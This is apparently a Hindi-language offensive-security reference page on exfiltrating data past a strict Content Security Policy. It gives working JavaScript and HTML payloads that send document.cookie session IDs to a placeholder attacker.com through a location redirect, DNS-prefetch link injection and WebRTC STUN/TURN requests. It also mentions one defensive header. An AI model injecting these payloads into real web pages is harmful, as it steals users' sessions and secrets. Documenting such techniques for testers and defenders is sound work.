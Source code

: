 यदि एक सख्त CSP है जो आपको **बाहरी सर्वरों के साथ बातचीत** करने की अनुमति नहीं देती है, तो कुछ चीजें हैं जो आप हमेशा जानकारी को एक्सफिल्ट्रेट करने के लिए कर सकते हैं।

### Location

आप बस स्थान को अपडेट कर सकते हैं ताकि हमलावर के सर्वर पर गुप्त जानकारी भेजी जा सके:
```javascript
var sessionid = document.cookie.split('=')[1]+".";
document.location = "https://attacker.com/?" + sessionid;
```
### Meta tag

आप एक मेटा टैग इंजेक्ट करके रीडायरेक्ट कर सकते हैं (यह सिर्फ एक रीडायरेक्ट है, यह सामग्री लीक नहीं करेगा)
```html
<meta http-equiv="refresh" content="1; http://attacker.com">
```
### DNS Prefetch

पृष्ठों को तेजी से लोड करने के लिए, ब्राउज़र होस्टनाम को आईपी पते में पूर्व-हल करने और उन्हें बाद में उपयोग के लिए कैश करने जा रहे हैं।\
आप एक ब्राउज़र को एक होस्टनाम को पूर्व-हल करने के लिए संकेत दे सकते हैं: `<link rel="dns-prefetch" href="something.com">`

आप इस व्यवहार का दुरुपयोग करके **DNS अनुरोधों के माध्यम से संवेदनशील जानकारी को निकाल सकते हैं**:
```javascript
var sessionid = document.cookie.split('=')[1]+".";
var body = document.getElementsByTagName('body')[0];
body.innerHTML = body.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + sessionid + "attacker.ch\">";
```
एक और तरीका:
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```
इससे बचने के लिए सर्वर HTTP हेडर भेज सकता है:
```
X-DNS-Prefetch-Control: off
```
{% hint style="info" %}
स्पष्ट रूप से, यह तकनीक हेडलेस ब्राउज़रों (बॉट्स) में काम नहीं करती है।
{% endhint %}

### WebRTC

कई पृष्ठों पर आप पढ़ सकते हैं कि **WebRTC CSP की `connect-src` नीति की जांच नहीं करता है।**

वास्तव में, आप _DNS अनुरोध_ का उपयोग करके जानकारी _लीक_ कर सकते हैं। इस कोड को देखें:
```javascript
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.dnsbin"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```
एक और विकल्प:
```javascript
var pc = new RTCPeerConnection({
"iceServers":[
{"urls":[
"turn:74.125.140.127:19305?transport=udp"
],"username":"_all_your_data_belongs_to_us",
"credential":"."
}]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```